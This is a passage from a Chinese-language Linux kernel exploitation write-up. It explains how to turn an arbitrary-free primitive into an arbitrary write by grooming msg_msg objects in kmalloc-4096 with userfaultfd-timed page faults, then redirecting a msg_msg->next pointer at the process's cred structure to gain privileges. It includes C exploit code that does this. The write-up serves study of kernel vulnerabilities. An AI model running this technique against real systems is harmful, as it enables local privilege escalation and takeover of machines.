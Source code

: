 ### <a class="reference-link" name="4.4%20%E6%AD%A5%E9%AA%A44%E2%80%94%E2%80%94%E4%BB%BB%E6%84%8F%E5%86%99%EF%BC%8C%E7%AF%A1%E6%94%B9cred"></a>4.4 步骤4——任意写，篡改cred

**思路**：现在 **QID #2**中的`msg_msg-&gt;next`指向一个空闲的`kmalloc-4096` （上一步利用任意释放原语所释放）。现在分配新消息占据该`kmalloc-4096`，即可通过**QID #2**篡改新消息的`msg_msg-&gt;next`实现任意写。

```
[...]

void *allocate_msg2(void *_)
`{`
    printf("[Thread 2] Message buffer allocated at 0x%lx\n", page_2 + PAGE_SIZE - 0x10);

    if ((qid[3] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1) // [2] 创建队列 QID #3
    `{`
        perror("msgget");
        exit(1);
    `}`

    memset(page_2, 0, PAGE_SIZE);
    ((unsigned long *)(page_2))[0xff0 / 8] = 1;

    if (msgsnd(qid[3], page_2 + PAGE_SIZE - 0x10, 0x1028 - 0x30, 0) &lt; 0) // [3] 分配0x1028字节的消息（0x30头 + 0xff8数据），内核中会分配1个 `0x30+0xfd0` 的消息块（和之前任意释放的segment位于同一块）和1个`0x8+0x28`字节的segment（位于`kmalloc-64`）。
    `{`
        puts("msgsend failed!");
        perror("msgsnd");
        exit(1);
    `}`

    puts("[Thread 2] Message sent, target overwritten!");
`}`

[...]

pthread_create(&amp;tid[3], NULL, allocate_msg2, NULL);     // [1] 创建子线程执行allocate_msg2()

[...]
```
<li>
`[2]`：创建队列 **QID #3**。</li>
<li>
`[3]`：调用`msgsend()` 分配0x1028字节的消息（0x30头 + 0xff8数据），内核中会分配1个 `0x30+0xfd0` 的消息块（和之前任意释放的segment位于同一块）和1个`0x8+0x28`字节的segment（位于`kmalloc-64`）。</li>
- 用户传入数据位于`page_2 + PAGE_SIZE - 0x10`，使用 [userfaultfd](https://www.kernel.org/doc/html/latest/admin-guide/mm/userfaultfd.html) 来监视 `page_2 + PAGE_SIZE` 位置，等待页错误，**第2个页错误**。触发页错误时，堆布局如下：
[![](https://p4.ssl.qhimg.com/t01e1406fd29876c871.png)](https://p4.ssl.qhimg.com/t01e1406fd29876c871.png)

**篡改QID #3 中`msg_msg-&gt;next`指针**：释放第1个错误处理，将**QID #3**中的`msg_msg-&gt;next`指针，篡改为当前进程的`cred-0x8`（因为segment的头8字节必须为null，避免`load_msg()`访问next segment时崩溃）。
